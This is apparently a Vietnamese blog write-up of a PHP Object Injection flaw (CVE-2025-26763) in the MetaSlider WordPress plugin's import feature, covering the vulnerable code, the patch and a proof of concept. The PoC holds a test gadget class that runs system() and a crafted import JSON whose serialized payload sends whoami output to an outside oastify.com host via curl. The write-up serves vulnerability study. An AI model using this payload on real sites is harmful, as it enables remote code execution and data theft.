

<!--more-->

## CVE & Basic Info
Lỗ hổng **Deserialization of Untrusted Data** trong plugin **MetaSlider Responsive Slider** của MetaSlider cho phép **Object Injection**. Vấn đề này ảnh hưởng đến **Responsive Slider by MetaSlider** từ phiên bản chưa xác định đến **3.94.0**.

* **CVE ID**: [CVE-2025-26763](https://www.cve.org/CVERecord?id=CVE-2025-26763)
* **Vulnerability Type**: PHP Object Injection
* **Affected Versions**: <= 3.94.0
* **Patched Versions**: 3.95.0
* **CVSS severity**: Medium (9.8)
* **Required Privilege**: Editor
* **Product**: [WordPress Responsive Slider by MetaSlider Plugin](https://wordpress.org/plugins/ml-slider/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **Responsive Slider by MetaSlider**:  
    * `3.94.0` – **vulnerable**  
    * `3.95.0` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ diff nào.

## Cause
**Trong phiên bản lỗi (v3.94.0):**

```php {title="Slideshows.php v3.94.0" data-open=true hl_lines=[6]}
if (isset($slideshow['meta']) && is_array($slideshow['meta'])) {
    foreach ($slideshow['meta'] as $key => $value) {
        update_post_meta(
            $new_slideshow_id,
            $key,
            maybe_unserialize(str_replace('{#ID#}', $new_slideshow_id, $value))
        );
    }
}
```

Trong đoạn mã này, hàm **`maybe_unserialize()`** được gọi trực tiếp trên dữ liệu người dùng (`$value`). Vì các giá trị này không được kiểm tra hay xác thực trước khi unserialize, kẻ tấn công có thể chèn chuỗi serialized độc hại gây PHP Object Injection.

**Bản vá (v3.95.0):** 



Bản vá đã bổ sung hai lớp bảo vệ quan trọng để ngăn dữ liệu độc hại bị unserialize:

1. Chặn ngay mọi giá trị meta có dạng serialized object (O:). Nếu phát hiện, quá trình import dừng lại và slideshow bị xoá.
```php {title="Slideshows.php v3.95.0" data-open=true hl_lines=[5,17]}
if (isset($slideshow['meta']) && is_array($slideshow['meta'])) {
    foreach ($slideshow['meta'] as $key => $value) {

        // @since 3.95 - Stop the process and cleanup if we catch non valid data in JSON
        if ( is_serialized( $value ) && substr( trim( $value ), 0, 2 ) === 'O:' ) {
            wp_trash_post($new_slideshow_id);

            return new WP_Error(
                'import_slideshow_error',
                esc_html__( 'Import file is invalid.', 'ml-slider' )
            );
        }

        update_post_meta(
            $new_slideshow_id,
            $key,
            $this->maybe_unserialize(str_replace('{#ID#}', $new_slideshow_id, $value))
        );
    }
}
```
2. Thay thế `maybe_unserialize()` bằng phiên bản an toàn hơn, dùng `unserialize(..., ['allowed_classes' => false])` để **không cho phép tạo object** khi giải nén dữ liệu.
```php {title="Slideshows.php v3.95.0" data-open=true hl_lines=[3]}
public function maybe_unserialize( $data ) {
    if ( is_serialized( $data ) ) { // Don't attempt to unserialize data that wasn't serialized going in.
        return @unserialize( trim( $data ), array( 'allowed_classes' => false ) );
    }

    return $data;
}
```
Nhờ đó, nguy cơ PHP Object Injection được loại bỏ.

## Analysis
Plugin đã đăng ký một POST API:

```php {title="api.php v3.94.0" data-open=true hl_lines=[4,5]}
protected $namespace = 'metaslider/v1';
register_rest_route($this->namespace, '/slideshow/import', array(array(
    'methods' => 'POST',
    'callback' => array($this->api, 'import_slideshows'),
    'permission_callback' => array($this->api, 'can_access')
)));
```
với callback `import_slideshows` và kiểm tra quyền thông qua `can_access()`.

```php {title="api.php v3.94.0" data-open=true hl_lines=[4]}
const DEFAULT_CAPABILITY_EDIT_SLIDES = 'edit_others_posts';
public function can_access()
{
    $capability = apply_filters('metaslider_capability', MetaSliderPlugin::DEFAULT_CAPABILITY_EDIT_SLIDES);

    // Check for the nonce on the server (used by WP REST)
    if (isset($_SERVER['HTTP_X_WP_NONCE']) && wp_verify_nonce(sanitize_key($_SERVER['HTTP_X_WP_NONCE']), 'wp_rest')) {
        return current_user_can($capability);
    }

    // This is for when not using Axios (example: callout.php)
    if (isset($_REQUEST['METASLIDER_NONCE']) && wp_verify_nonce(sanitize_key($_REQUEST['METASLIDER_NONCE']), 'metaslider_request')) {
        return current_user_can($capability);
    }

    return false;
}
```

Hàm này chỉ cho phép người dùng có quyền `edit_others_posts` tức là **editor** trở lên, được gọi API.

Nó xác thực theo hai cách:

1. Nếu có header `X-WP-Nonce`, plugin kiểm tra nonce `'wp_rest'`, rồi xác nhận người dùng có quyền `edit_others_posts`.
2. Nếu có tham số `METASLIDER_NONCE`, plugin kiểm tra nonce `'metaslider_request'`, rồi tiếp tục kiểm tra quyền.

Nếu không hợp lệ ở cả hai trường hợp, quyền truy cập API bị từ chối.

```php {title="api.php v3.94.0" data-open=true hl_lines=[3,4,15]}
public function import_slideshows($request)
{
    if (!$this->can_access()) {
        $this->deny_access();
    }

    $data = $this->get_request_data($request, array('slideshows'));

    if (!$data['slideshows']) {
        wp_send_json_error(array(
            'message' => __('Nothing to import.', 'ml-slider')
        ), 400);
    }

    $status = $this->slideshows->import((array) json_decode($data['slideshows'], true));

    if (is_wp_error($status)) {
        wp_send_json_error(array(
            'message' => $status->get_error_message()
        ), 400);
    }

    wp_send_json_success($status, 200);
}
```

Hàm `import_slideshows`:

1. **Kiểm tra quyền truy cập**
   Nếu `can_access()` trả về false → chặn ngay bằng `deny_access()`.

2. **Lấy dữ liệu đầu vào**
   Lấy trường `slideshows` từ request. Nếu không có dữ liệu → trả lỗi “Nothing to import”.

3. **Giải mã JSON và tiến hành import**
   Giải mã nội dung `slideshows` rồi gọi hàm `$this->slideshows->import()` để xử lý.

4. **Xử lý lỗi**
   Nếu import trả về `WP_Error` → gửi JSON error với thông báo lỗi.

5. **Thành công**
   Nếu không có lỗi → trả về JSON success kèm kết quả import.

Theo mô tả của hàm `import()` thì `$slideshows` là data được export từ **slideshows đã tạo**

> [!QUOTE]
> /**
> * Will import slideshows
> *
> * @param array $slideshows - The data generated by the export method
> *
> * @throws Exception - handled within method.
> * @return WP_Error|array - True on success, WP_Error on failure
> */

```php {title="Slideshows.php v3.94.0" data-open=true hl_lines=[7]}
foreach ($slideshows as $index => $slideshow) {
    ...
    foreach ($slideshow['slides'] as $slide) {
        ...
        foreach ($slide['meta'] as $key => $value) {
            $value = $this->restore_image_urls_from_string($value);
            add_post_meta($new_slide_id, $key, maybe_unserialize($value));
        }
    }
    ...
}
```

Hàm `import()` duyệt lần lượt từng slideshow trong `$slideshows`, sau đó từng slide trong mỗi slideshow, và từng meta của mỗi slide. Với mỗi meta, nó phục hồi URL hình ảnh qua `$this->restore_image_urls_from_string($value)` rồi thêm meta mới cho slide bằng `add_post_meta($new_slide_id, $key, maybe_unserialize($value))`. Nói cách khác, mã thực hiện import toàn bộ slideshow, slide và meta, đồng thời xử lý URL hình ảnh và unserialize dữ liệu trước khi lưu vào cơ sở dữ liệu.

## Flow


graph TD

A["Editor sends POST request → /metaslider/v1/slideshow/import"] --> B["import_slideshows() invoked"]
B --> C{"can_access(): verify nonce + 'edit_others_posts' capability"}
C -- Fail --> Z["deny_access()"]
C -- Pass --> D["Extract 'slideshows' from request"]
D --> E["json_decode(slideshows) → array of slideshow data"]

E --> F["slideshows->import() begins"]

F --> G["foreach ($slideshows as $slideshow)"]
G --> H["foreach ($slideshow['slides'] as $slide)"]
H --> I["foreach ($slide['meta'] as key => value)"]

I --> J["value = restore_image_urls_from_string(value)"]
J --> K{"Is value serialized?"}

K -- Yes --> L["maybe_unserialize(value)"]
K -- No --> M["Store meta normally"]

L --> N{"Does unserialize create an object?"}
N -- Yes --> R["Object Injection → POP chain execution"]
N -- No --> M

M --> O["add_post_meta(new_slide_id, key, value)"]
O --> P["Import continues for remaining slideshows"]

R --> Q["Exploit achieved"]



## Proof of Concept (PoC)
1. Tạo class để test đặt trong `wp-config.php`
```php
class Evil
{
    public $command = "ls /";
    public function __destruct()
    {
        die(system($this->command));
    }
}
```
2. Tạo một slideshow bất kỳ, export để lấy JSON file mẫu.
3. Sửa lại JSON file với trường `ml-slider_type` (hoặc một trường được duyệt bất kì) chứa chuỗi serialized.

Example:
```json
{
  "0": {
    "title": "New Slideshow",
    "original_id": 260,
    "meta": {
      "metaslider_slideshow_theme": "a:6:{s:6:\"folder\";s:12:\"default-base\";s:5:\"title\";s:4:\"Base\";s:4:\"type\";s:4:\"free\";s:8:\"supports\";a:1:{i:0;s:4:\"flex\";}s:4:\"tags\";a:0:{}s:11:\"description\";s:37:\"This is the default MetaSlider theme.\";}",
      "ml-slider_settings": "..."
    },
    "slides": [
      {
        "original_id": 265,
        "order": 0,
        "post_excerpt": "",
        "image": "erol-ahmed-305920-unsplash-1",
        "image_alt": "erol-ahmed-305920-unsplash-1",
        "meta": {
          "ml-slider_type": "O:4:\"Evil\":1:{s:7:\"command\";s:74:\"curl http:\/\/9blonkz57zyrp69hwuz5tw0uoluci26r.oastify.com?leadked=$(whoami)\";}",
          "ml-slider_inherit_image_title": "1",
          "ml-slider_inherit_image_alt": "1",
          "ml-slider_crop_position": "center-center",
          "ml-slider_caption_source": "image-caption",
          "_wp_attachment_image_alt": ""
        }
      }
    ]
  },
  "metadata": {
    "version": "3.94.0",
    "date": "2025/11/26"
  }
}
```

4. Import lại file JSON được sửa.


## Conclusion

Lỗi phát sinh do plugin gọi `maybe_unserialize()` trực tiếp trên dữ liệu import mà không kiểm tra, cho phép chèn chuỗi serialized độc hại dẫn đến PHP Object Injection. Bản vá 3.95.0 đã khắc phục bằng cách chặn serialized object và dùng hàm unserialize an toàn hơn.

## Key Takeaways

* Không được unserialize dữ liệu người dùng khi chưa kiểm tra.
* Chức năng import/export luôn là bề mặt tấn công nhạy cảm.
* Kiểm soát serialized data (đặc biệt là chuỗi bắt đầu bằng `O:`) là bắt buộc.
* Dùng `allowed_classes => false` để ngăn tạo object khi unserialize.

## References

[Deserialization](https://book.hacktricks.wiki/en/pentesting-web/deserialization/index.html)

[WordPress Responsive Slider by MetaSlider Plugin <= 3.94.0 is vulnerable to PHP Object Injection](https://patchstack.com/database/wordpress/plugin/ml-slider/vulnerability/wordpress-slider-gallery-and-carousel-by-metaslider-image-slider-video-slider-plugin-3-94-0-php-object-injection-vulnerability?_s_id=cve)     
